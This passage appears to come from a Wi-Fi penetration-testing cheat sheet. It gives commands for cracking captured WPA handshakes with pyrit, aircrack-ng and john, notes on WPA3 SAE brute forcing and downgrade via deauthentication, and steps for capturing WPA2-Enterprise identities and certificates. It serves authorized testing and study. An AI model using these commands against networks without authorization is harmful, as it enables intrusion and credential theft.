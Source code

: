 ```bash
pyrit -r <CAPTURE.cap> analyze
pyrit -r <CAPTURE.cap> -b <BSSID> -i <WORDLIST> attack_passthrough
```

```bash
aircrack-ng <CAPTURE.cap> -J out  # produce .hccap
hccap2john out.hccap > out.john
john --wordlist=<WORDLIST> out.john
```

---
## 8. WPA3 & SAE

### Offline Brute Force

WPA3 uses **SAE** (Simultaneous Authentication of Equals) for handshake. If an AP is misconfigured or if it reverts to WPA2-PSK for older clients, you can still capture a handshake or a PMKID.

**Offline SAE brute forcing** can sometimes be done with tools like **hcxdumptool** + **hashcat** (mode 22000).

---
### Downgrade Attacks

If a network supports both WPA2 and WPA3 (transition mode), you can force a **downgrade** by sending deauth or forging beacons that only advertise WPA2. The client might reconnect with WPA2-PSK, letting you capture a normal 4-way handshake to crack.

---
## 9. WPA2-Enterprise (MGT) Attacks

### Basic Concepts
- **EAP**: Framework used for authentication
- **RADIUS**: Usually the backend server handling authentication
- **Common EAP methods**: PEAP, EAP-TTLS, EAP-TLS, EAP-MSCHAPv2, EAP-GTC, etc.
- **EAP Identity**: Often sent in plaintext (username@domain).

---

### Capturing Usernames & Certificates

1. **Monitor MGT networks**:
```bash
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <OUTFILE> wlan0mon
```
2. **Look for “Response, Identity”** with Wireshark filter:
```bash
eap.identity
```
3. **Certificate capture**:
```bash
tshark -r <OUTFILE>.cap -Y "tls.handshake.certificate" -V
```
or in Wireshark filter:
 ```bash
wlan.bssid == <BSSID> && tls.handshake.certificate
```  
---
### Evil Twin (Rogue AP) for WPA-Enterprise
